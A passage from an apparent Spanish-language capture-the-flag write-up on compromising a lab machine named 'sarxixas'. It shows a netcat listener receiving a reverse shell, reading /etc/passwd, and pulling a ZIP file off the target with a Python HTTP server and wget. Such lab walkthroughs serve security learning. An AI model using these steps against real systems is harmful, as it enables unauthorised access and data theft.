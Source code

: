 * Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.250] 57748
bash: cannot set terminal process group (442): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sarxixas:/var/www/html/files$
```
Genial.

Pero aún no podremos obtener la flag del usuario, aunque sí podemos identificar quién es el usuario de esta máquina si nos vamos al directorio `/home` y también revisando el `/etc/passwd`:
```bash
www-data@sarxixas:/var/www/html/files$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
...
sarxixa:x:1000:1002:concebolla,,,:/home/sarxixa:/bin/bash
www-data@sarxixas:/var/www/html/files$ cd /home
cd /home
www-data@sarxixas:/home$ ls
ls
sarxixa
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="CrackHash2">Crackeando Segundo Archivo ZIP, Decodificando Hash de Base58 con CyberChef y Convirtiendonos en Usuario sarxixa</h2>

Enumerando la máquina, encontraremos un **archivo ZIP** en el directorio `/opt`:
```bash
www-data@sarxixas:/opt$ ls
ls
edropedropedrooo.zip
```

Podemos descargarlo en nuestra máquina, abriendo un servidor con **Python3** usando el **puerto 8080**:
```bash
www-data@sarxixas:/opt$ python3 -m http.server 8080
```

Y desde nuestra máquina, lo descargamos con **wget**:
```bash
wget http://192.168.1.250:8080/edropedropedrooo.zip
--2025-04-14 14:39:54--  http://192.168.1.250:8080/edropedropedrooo.zip
Conectando con 192.168.1.250:8080... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 242 [application/zip]
Grabando a: «edropedropedrooo.zip»

edropedropedrooo.zip    100%[====================>]     242  --.-KB/s    en 0.001s  

2025-04-14 14:39:54 (256 KB/s) - «edropedropedrooo.zip» guardado [242/242]
```
